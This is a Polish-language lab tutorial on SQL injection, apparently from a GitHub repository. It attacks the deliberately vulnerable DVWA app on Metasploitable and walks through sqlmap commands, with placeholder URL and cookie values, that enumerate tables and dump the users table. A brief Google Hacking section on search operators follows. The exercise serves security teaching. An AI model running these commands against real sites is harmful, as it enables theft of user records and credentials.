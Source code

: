 ## SQL Injection Attack
Aby przeprowadzić atak SQL Injection, haker zwykle wykonuje następujące kroki:
1. Haker identyfikuje podatne na zagrożenia witryny internetowe oparte na języku SQL i wprowadza złośliwe zapytania SQL za pośrednictwem danych wejściowych
2. Złośliwe zapytanie SQL jest sprawdzane, a polecenie jest wykonywane przez bazę danych 
3. Haker uzyskuje dostęp do przeglądania i modyfikowania rekordów lub może działać jako administrator bazy danych

Autor wykonuje w ćwiczeniu atak na aplikację _Damn Vulnerable Web Application (DVWA)_. Jest ona dostępna na maszynie wirutalnej Ubuntu Linux 8.04 - wersja z [Metasploitable](https://docs.rapid7.com/metasploit/metasploitable-2/).

Ćwiczenie można również wykonać bez _Metasploitable_, pobierając samą aplikację _DVWA_. Można ją pobrać i zainstalować zgodnie z instrukcjami na stronie github autora _DVWA_:
https://github.com/digininja/DVWA

Następnie do przeprowadzenia ataku, autor wykorzystuje przydatne w tym celu narzędzie `sqlmap`, które usprawnia cały proces przeprowadzania ataku

Instalacja Debian/Ubuntu/Kali
```sh
sudo apt install -y sqlmap 
```

Instalacja Fedora/CentOS/Rhel
```sh
sudo dnf install sqlmap 
```

Lista poleceń programu
```sh
# Szczegółowy opis
man sqlmap 
# Lista przełączników/flag
sqlmap -h
```

Odnalezienie zawartości cookie
![png](https://raw.githubusercontent.com/a11g0rhythm/test/main/SQL_Injection_01_cookie.png)

Wykonanie podatności
```sh
sudo sqlmap -u "adres_strony" --cookie="wartość_cookie"
```

Pozyskanie list tabel z bazy strony
```sh
sudo sqlmap -u "adres_strony" --cookie="wartość_cookie" --tables
```

Pozyskanie zawartości tabeli users
```sh
sudo sqlmap -u "adres_strony" --cookie="wartość_cookie" -T users --dump
```

## Google Hacking
Google umożliwia oprócz prostego pola wyszukiwania również wyszukiwanie zaawansowane za pomocą dodatkowych operatorów wyszukiwania. Szczegóły możemy znaleźć na poniższej stronie:
https://www.google.pl/intl/pl/help/operators.html
